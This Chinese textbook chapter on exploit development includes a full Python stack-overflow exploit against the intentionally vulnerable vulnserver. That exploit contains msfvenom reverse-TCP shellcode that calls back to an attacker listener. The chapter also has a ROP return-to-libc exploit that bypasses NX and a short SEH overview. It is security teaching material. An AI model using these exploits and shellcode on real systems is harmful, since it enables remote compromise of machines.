







# Exploit 开发-第 2 部分

在本章中，我们将继续讨论 exploit 开发的话题。首先，我们将通过注入 shellcode 继续并完成我们之前的例子。然后，我们将讨论一种新的技术，用于避免 NX 保护机制（NX 将在最后一章中解释）。

以下是本章我们将涵盖的主题：

+   注入 shellcode

+   返回导向编程

+   结构化异常处理程序

# 注入 shellcode

现在，让我们继续上一章的例子。在我们控制了指令指针之后，我们需要做的是注入 shellcode 并将指令指针重定向到它。

为了实现这一点，我们需要为 shellcode 找一个家。实际上很容易；它只涉及跳转到堆栈。现在我们需要做的是找到那个指令：

1.  启动 vulnserver，然后以管理员身份启动 Immunity Debugger，并从“文件”菜单中，附加到 vulnserver：


1.  点击运行程序图标，然后右键单击并选择搜索；然后，在所有模块中选择所有命令来搜索应用程序本身或任何相关库中的任何指令：



1.  然后我们需要做的是跳转到堆栈来执行我们的 shellcode；所以，让我们搜索`JMP ESP`指令并点击查找：



1.  让我们从`kernel32.dll 7DD93132`复制`JMP ESP`的地址，然后再次在 Immunity Debugger 中重新运行 vulnserver，并点击运行程序图标。

你可以使用任何库，不仅仅是`kernel32.dll`。但是，如果你使用系统的库，比如`kernel32.dll`，那么由于 ASLR 机制（将在最后一章中解释），每次 Windows 启动时地址都会改变；但如果你使用与应用程序相关而与系统无关的库，那么地址就不会改变。

1.  然后，从攻击机器上，编辑我们的 exploit 如下：

```
#!/usr/bin/python
import socket

server = '172.16.89.131'
sport = 9999
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((server, sport))
print s.recv(1024)
buffer =''
buffer+= 'A'*2006
buffer += '\x32\x31\xd9\x7d'
buffer+= 'C'*(5000-2006-4)
s.send(('TRUN .' + buffer + '\r\n'))
print s.recv(1024)
s.send('EXIT\r\n') 
print s.recv(1024)
s.close()
```

1.  然后，运行 exploit。指令指针现在指向`43434343`，这是我们的`C`字符：



1.  现在我们准备插入我们的 shellcode。让我们使用 Metasploit Framework 创建一个：

```
$ msfvenom -a x86 -platform Windows -p windows/shell_reverse_tcp LHOST=172.16.89.1 LPORT=4321 -b '\x00' -f python
```

1.  这个命令生成一个反向 TCP shell，连接回我的攻击机器的端口`4321`：



1.  因此，我们的最终 exploit 应该是这样的：

```
#!/usr/bin/python
import socket
server = '172.16.89.131'
sport = 9999
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((server, sport))
print s.recv(1024)

junk = 'A'*2006             \\ Junk value to overflow the stack

eip = '\x32\x31\xd9\x7d'    \\ jmp esp

nops = '\x90'*64    \\ To make sure that jump will be inside our shellcode

shellcode = ""
shellcode += "\xbb\x6e\x66\xf1\x4c\xd9\xe9\xd9\x74\x24\xf4\x5a\x2b"
shellcode += "\xc9\xb1\x52\x31\x5a\x12\x83\xea\xfc\x03\x34\x68\x13"
shellcode += "\xb9\x34\x9c\x51\x42\xc4\x5d\x36\xca\x21\x6c\x76\xa8"
shellcode += "\x22\xdf\x46\xba\x66\xec\x2d\xee\x92\x67\x43\x27\x95"
shellcode += "\xc0\xee\x11\x98\xd1\x43\x61\xbb\x51\x9e\xb6\x1b\x6b"
shellcode += "\x51\xcb\x5a\xac\x8c\x26\x0e\x65\xda\x95\xbe\x02\x96"
shellcode += "\x25\x35\x58\x36\x2e\xaa\x29\x39\x1f\x7d\x21\x60\xbf"
shellcode += "\x7c\xe6\x18\xf6\x66\xeb\x25\x40\x1d\xdf\xd2\x53\xf7"
shellcode += "\x11\x1a\xff\x36\x9e\xe9\x01\x7f\x19\x12\x74\x89\x59"
shellcode += "\xaf\x8f\x4e\x23\x6b\x05\x54\x83\xf8\xbd\xb0\x35\x2c"
shellcode += "\x5b\x33\x39\x99\x2f\x1b\x5e\x1c\xe3\x10\x5a\x95\x02"
shellcode += "\xf6\xea\xed\x20\xd2\xb7\xb6\x49\x43\x12\x18\x75\x93"
shellcode += "\xfd\xc5\xd3\xd8\x10\x11\x6e\x83\x7c\xd6\x43\x3b\x7d"
shellcode += "\x70\xd3\x48\x4f\xdf\x4f\xc6\xe3\xa8\x49\x11\x03\x83"
shellcode += "\x2e\x8d\xfa\x2c\x4f\x84\x38\x78\x1f\xbe\xe9\x01\xf4"
shellcode += "\x3e\x15\xd4\x5b\x6e\xb9\x87\x1b\xde\x79\x78\xf4\x34"
shellcode += "\x76\xa7\xe4\x37\x5c\xc0\x8f\xc2\x37\x43\x5f\x95\xc6"
shellcode += "\xf3\x62\x25\xd9\xe2\xea\xc3\xb3\xf4\xba\x5c\x2c\x6c"
shellcode += "\xe7\x16\xcd\x71\x3d\x53\xcd\xfa\xb2\xa4\x80\x0a\xbe"
shellcode += "\xb6\x75\xfb\xf5\xe4\xd0\x04\x20\x80\xbf\x97\xaf\x50"
shellcode += "\xc9\x8b\x67\x07\x9e\x7a\x7e\xcd\x32\x24\x28\xf3\xce"
shellcode += "\xb0\x13\xb7\x14\x01\x9d\x36\xd8\x3d\xb9\x28\x24\xbd"
shellcode += "\x85\x1c\xf8\xe8\x53\xca\xbe\x42\x12\xa4\x68\x38\xfc"
shellcode += "\x20\xec\x72\x3f\x36\xf1\x5e\xc9\xd6\x40\x37\x8c\xe9"
shellcode += "\x6d\xdf\x18\x92\x93\x7f\xe6\x49\x10\x8f\xad\xd3\x31"
shellcode += "\x18\x68\x86\x03\x45\x8b\x7d\x47\x70\x08\x77\x38\x87"
shellcode += "\x10\xf2\x3d\xc3\x96\xef\x4f\x5c\x73\x0f\xe3\x5d\x56"

injection = junk + eip + nops + shellcode
s.send(('TRUN .' + injection + '\r\n'))
print s.recv(1024)
s.send('EXIT\r\n') 
print s.recv(1024)
s.close()
```

1.  现在，让我们再次启动 vulnserver。然后，在我们的攻击机器上设置一个监听器：

```
$ nc -lp 4321
```

1.  是时候尝试我们的 exploit 了，让我们保持对监听器的关注：

```
./exploit.py
```

1.  然后，从我们的监听 shell 中，执行以下命令：


1.  让我们使用`ipconfig`来确认一下：


1.  现在我们控制了我们的受害机器！

# 返回导向编程

什么是**返回导向编程**（**ROP**）？

让我们用最简单的方式解释 ROP 是什么。ROP 是一种技术，即使启用了 NX，也可以利用缓冲区溢出漏洞。ROP 技术可以使用 ROP 小工具绕过 NX 保护技术。

ROP 小工具是存储在内存中的机器指令地址序列。因此，如果我们能够改变执行流到这些指令中的一个，那么我们就可以控制应用程序，并且可以在不上传 shellcode 的情况下做到这一点。此外，ROP 小工具以`ret`指令结尾。如果你还没有明白，没关系；我们将进行一个例子来完全理解 ROP 是什么。

所以，我们需要安装 ropper，这是一个在二进制文件中查找 ROP 小工具的工具。你可以通过它在 GitHub 上的官方存储库下载它（[`github.com/sashs/Ropper`](https://github.com/sashs/Ropper)），或者你可以按照这里给出的说明：

```
 $ sudo apt-get install python-pip
 $ sudo pip install capstone
 $ git clone https://github.com/sashs/ropper.git
 $ cd ropper
 $ git submodule init
 $ git submodule update
```

让我们看看下一个有漏洞的代码，它将打印出`Starting /bin/ls`。执行`overflow`函数，它将从用户那里获取输入，然后打印出来以及输入的大小：

```
#include <stdio.h>
#include <unistd.h>

int overflow() 
{
    char buf[80];
    int r;
    read(0, buf, 500);
    printf("The buffer content %d, %s", r, buf);
    return 0;
}

int main(int argc, char *argv[]) 
{
    printf("Starting /bin/ls");
    overflow();
    return 0;
}
```

让我们编译它，但不要禁用 NX：

```
$ gcc -fno-stack-protector rop.c -o rop
```

然后，启动`gdb`：

```
$ gdb ./rop
```

现在，让我们确认 NX 是否已启用：

```
$ peda checksec
```

前面命令的输出可以在以下截图中看到：


现在，让我们使用 PEDA 执行模糊测试并控制 RIP，而不是使用 Metasploit 框架：

```
$ peda pattern_create 500 pattern
```

这将创建一个包含`500`个字符的模式，并将文件保存为`pattern`。现在，让我们将这个模式作为输入读取：

```
$ run < pattern
```

前面命令的输出可以在以下截图中看到：



程序崩溃了。下一步是检查栈中的最后一个元素，以计算 EIP 的偏移量：

```
$ x/wx $rsp
```

我们得到了栈中的最后一个元素为`0x41413741`（如果你使用相同的操作系统，这个地址应该是一样的）。现在，让我们看看这个模式的偏移量和下一个偏移量是否是 RIP 的确切偏移量：

```
$ peda pattern_offset 0x41413741
```

前面命令的输出可以在以下截图中看到：


RIP 的确切偏移将从`105`开始。让我们也确认一下：

```
#!/usr/bin/env python
from struct import *

buffer = ""
buffer += "A"*104 # junk
buffer += "B"*6
f = open("input.txt", "w")
f.write(buffer)
```

这段代码应该用六个`B`字符溢出 RIP 寄存器：

```
$ chmod +x exploit.py
$ ./exploit.py
```

然后，从 GDB 内部运行以下命令：

```
$ run < input.txt
```

前面命令的输出可以在以下截图中看到：



前面的截图表明我们正在朝着正确的方向前进。

由于 NX 已启用，我们无法上传和运行 shellcode，所以让我们使用返回到 libc 的 ROP 技术，这使我们能够使用来自 libc 本身的调用，这可能使我们能够调用函数。在这里，我们将使用`system`函数来执行 shell 命令。让我们看一下`system`的 man 页面：

```
$ man 3 system
```

前面命令的输出可以在以下截图中看到：


我们需要的是`system`函数的地址，以及 shell 命令字符串的位置——幸运的是，我们在`/bin/ls`代码中有这个。

我们所做的唯一的事情就是将字符串的位置复制到栈中。现在，我们需要找到一种方法将位置复制到 RDI 寄存器，以启用系统函数执行`ls`命令。因此，我们需要 ROP 小工具，它可以提取字符串的地址并将其复制到 RDI 寄存器，因为第一个参数应该在 RDI 寄存器中。

好的，让我们从 ROP 小工具开始。让我们搜索与 RDI 寄存器相关的任何 ROP 小工具。然后，导航到你安装 ropper 的位置：

```
$ ./Ropper.py --file /home/stack/buffer-overflow/rop/rop --search "%rdi"
```

前面命令的输出可以在以下截图中看到：



这个 ROP 小工具很完美：`pop rdi; ret;`，地址为`0x0000000000400653`。现在，我们需要从 GDB 内部找出`system`函数在内存中的确切位置：

```
$ p system
```

前面命令的输出可以在以下截图中看到：


现在，我们还得到了`system`函数的地址，为`0x7ffff7a57590`。

在你的操作系统上，这个地址可能会有所不同。

让我们使用 GDB 获取`/bin/ls`字符串的位置：

```
$ find "/bin/ls"
```

前面命令的输出可以在以下截图中看到：


现在，我们已经得到了带有地址`0x400697`的字符串的位置。

栈的逻辑顺序应该是：

1.  `system`函数的地址

1.  将被弹出到 RDI 寄存器的字符串指针

1.  ROP 小工具用于提取 pop，即栈中的最后一个元素到 RDI 寄存器

现在，我们需要以相反的顺序将它们推入栈中，使用我们的利用代码：

```
#!/usr/bin/env python
from struct import *

buffer = ""
buffer += "A"*104 # junk
buffer += pack("<Q", 0x0000000000400653) # <-- ROP gadget
buffer += pack("<Q", 0x400697) #  <-- pointer to "/bin/ls"
buffer += pack("<Q", 0x7ffff7a57590) # < -- address of system function

f = open("input.txt", "w")
f.write(buffer)
```

让我们运行脚本来更新`input.txt`：

```
$ ./exploit.py
```

然后，从 GDB 中运行以下命令：

```
$ run < input.txt
```

栈的逻辑顺序应该是：


成功了！正如你所看到的，`ls`命令成功执行了。我们找到了绕过 NX 保护并利用这段代码的方法。

# 结构化异常处理

**结构化异常处理**（**SEH**）只是在代码执行过程中发生的事件。我们可以在高级编程语言中看到 SEH，比如 C++和 Python。看一下下面的代码：

```
try:
    divide(6,0)
except ValueError:
    print "That value was invalid."
```

这是一个除零的例子，会引发异常。程序应该改变执行流到其他地方，做里面的任何事情。

SEH 由两部分组成：

+   异常注册记录（SEH）

+   下一个异常注册记录（nSEH）

它们以相反的顺序推入堆栈。那么现在如何利用 SEH 呢？就像普通的堆栈溢出一样简单：


这就是我们的利用程序应该看起来的样子。我们需要的是将一条指令**pop pop ret**推入**SEH**，以使跳转到**nSEH**。然后，将一条跳转指令推入**nSEH**，以使跳转到 shellcode；因此，我们的最终 shellcode 应该是这样的：


我们将在第十一章，*真实场景-第 3 部分*中涵盖一个实际场景，关于利用 SEH。

# 摘要

在这里，我们简要讨论了利用程序的开发，从 fuzzing 开始，以及如何控制指令指针。然后，我们看到了如何为 shellcode 找到一个家园，并改变执行流到该 shellcode。最后，我们讨论了一种称为 ROP 的技术，用于绕过 NX 保护技术，并快速了解了 SEH 利用技术。

在下一章中，我们将通过*真实场景*来构建一个真实应用的利用程序。
